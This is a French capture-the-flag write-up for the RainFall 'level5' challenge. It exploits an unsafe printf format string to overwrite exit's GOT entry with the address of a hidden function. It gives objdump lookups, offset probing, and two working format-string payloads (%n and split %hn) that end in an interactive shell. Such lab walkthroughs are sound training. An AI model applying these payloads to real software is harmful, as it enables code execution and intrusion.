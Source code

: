# Level 5

Dans ce challenge, nous avons encore un printf non securise, mais pas de variable globale a ecraser.
Par contre, on trouve une fonction o() qui n'est jamais appele.
Pourrions nous ecraser une adresse pour la remplacer par celle-ci?
Le programme fait un appel exit() juste apres notre printf a exploiter et apres quelques recherches, il semblerait que nous puissions ecraser l'addresse de exit() pas celle que nous desirons.

Cherchons d'abord l'addresse de la fonction o() que nous voulons injecter:
```
level5@RainFall:~$ objdump -t ./level5 | grep -w o
080484a4 g     F .text	0000001e              o
```

Cherchons ensuite l'addresse de notre fonction exit cible
```
level5@RainFall:~$ objdump -R ./level5

./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit				# Addresse de exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```

"\x38\x98\x04\x08" est une addresse qui tiens `exit` comme valeur.

"0x80484a4 - 4 " est l'addresse de n - 4 pour enlever les 4 octets de l'addresse d'exit

Nous devons maintenant trouver l'offset sur lequel printf override.
```
level5@RainFall:~$ python -c 'print("AAAA" + "%08x." * 8)' | ./level5 | grep 41
AAAA00000200.b7fd1ac0.b7ff37d0.41414141.78383025.3830252e.30252e78.252e7838.

level5@RainFall:~$ echo 'AAAA%4$p' | ./level5
AAAA0x41414141
```

C'est le 4eme octet.

Nous pouvons ainsi proceder a l'injection:
```
$(python -c 'print("\x38\x98\x04\x08"+"%"+str(0x80484a4 - 4)+"d%4$n")'; cat -) | ./level5
```

Solution 2 plus complexe:
```
python -c 'print("\x3A\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn")' > /tmp/test ;cat /tmp/test - | ./level5
```
